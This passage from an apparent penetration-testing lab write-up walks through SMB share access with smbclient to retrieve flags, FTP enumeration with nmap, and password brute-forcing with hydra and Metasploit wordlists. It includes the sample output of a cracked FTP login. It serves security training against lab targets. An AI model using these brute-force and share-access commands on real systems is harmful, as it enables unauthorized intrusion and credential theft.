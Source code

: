 ```bash
        nancy           Disk      
        admin           Disk      
        IPC$            IPC       IPC Service (brute.samba.recon.lab)
# The output is the same if we run it with the jane user,
# so let's try to connect into jane's share.
$ smbclient -U jane //$target/jane
smb: \> dir
  flag                                D        0  Tue Nov 27 19:25:12 2018
  admin                               D        0  Tue Nov 27 19:25:12 2018
# There's a flag directory, let's cd into it. There's also an admin folder...
# maybe it contains some serious corpo creds!
smb: \> cd flag
smb: \flag\> dir
  flag                                N       33  Tue Nov 27 19:25:12 2018
smb: \flag\> get flag
# Although this flag is useless to us, it's good to keep practicing with the smbclient.
# Now let's get da root flag!!!!
$ smbclient -U admin //$target/admin
smb: \> dir
  hidden                              D        0  Tue Nov 27 19:25:12 2018
smb: \> cd hidden
smb: \hidden\> dir
  flag.tar.gz                         N      151  Tue Nov 27 19:25:12 2018
smb: \hidden\> get flag.tar.gz
$ tar xfv flag.tar.gz
```

And we're good to go.

<a id="5.9"></a>
## FTP service enumeration

```bash
$ nmap -sV -A -p21 [TARGET]
$ ftp [TARGET]
$ hydra -L /path/to/users -P /path/to/passwords [TARGET] [SERVICE]
$ hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords [TARGET] ftp
$ nmap --script ftp-brute --script-args userdb=/path/to/users -p21 [TARGEt]
```

<a id="5.9.1"></a>
### ProFTP Recon: Basics lab 

Objective: get the password for the auditor user and the flag!

```bash
$ ping $target
$ nmap -sV -A $target
21/tcp open  ftp     ProFTPD 1.3.5a
$ ftp $target
# We don't have a password, and the FTP server doesn't 
# let us use an anonymous account. Let's get some cr3ds!!!
$ hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt $target ftp
# WE GOT A HIT!!!
[21][ftp] host: .3   login: auditor   password: p4ssw0rd
$ ftp $target
ftp > ls
secret.txt
ftp > get secret.txt
# Lesgooooo!
```
